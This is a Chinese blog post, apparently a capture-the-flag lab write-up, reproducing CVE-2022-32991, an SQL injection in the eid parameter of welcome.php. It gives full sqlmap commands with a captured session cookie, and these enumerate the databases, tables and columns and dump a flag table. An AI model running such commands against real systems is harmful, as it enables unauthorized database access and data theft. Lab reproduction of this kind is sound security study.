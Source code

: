 ```yaml
---
title: CVE-2022-32991
subtitle:
date: 2025-03-14T13:11:14+08:00
slug: 85472c2
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

尝试注册账号，注册完成以后登录
![](images/0dab76148ac78a186c13d411543798f9.png)
根据提示
![](images/02ddae09f0f72d3d7ebbad4f0ad43799.png)
该SQL注入位于welcome.php处。但是参数根据CVE官方应该是通过eid参数的SQL注入，但是上述页面并不是eid参数，需要继续查找。
![](images/1755879bd17168ddc6869dda07eae1f8.png)
在此处发现eid参数
![](images/244f0196e4e82a542f3b56ad63d33d23.png)
抓包找到所需要的参数，因为该页面需要登录访问，所以需要获得Cookie绕过身份验证，并添加-user-agent参数绕过客户端验证。
![](images/8d563db15e5e04624d859a8fc73492df.png)

```
Cookie: PHPSESSID=25p9b92ovsqudtuepvmi7jgvma
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
```

Sqlmap进行攻击

```
 sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch --dbs
```

得到数据库
![](images/1a48213ec268f830405b986cd6745473.png)
爆出数据库以后，进行爆表

```
sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch -D "ctf" --tables
```

![](images/683694ef17178f038bc2277de14cf1ec.png)
得到表名再去爆破列名

```
sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch -D "ctf" -T "flag" --columns
```

![](images/1d577c691a349bbad1317a6a47772633.png)
继续爆破字段

```
sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch -D "ctf" -T "flag" -C "flag" --dump
```

![](images/eced71d2a9282e89527650a514d70945.png)

总结

```
--cookie                        #绕过身份验证
--random-agent或--user-agent    #绕过客户端验证
--batch                         #默认后续sqlmap操作都为Y
--p                             #指定sqlmap注入的传参参数
```
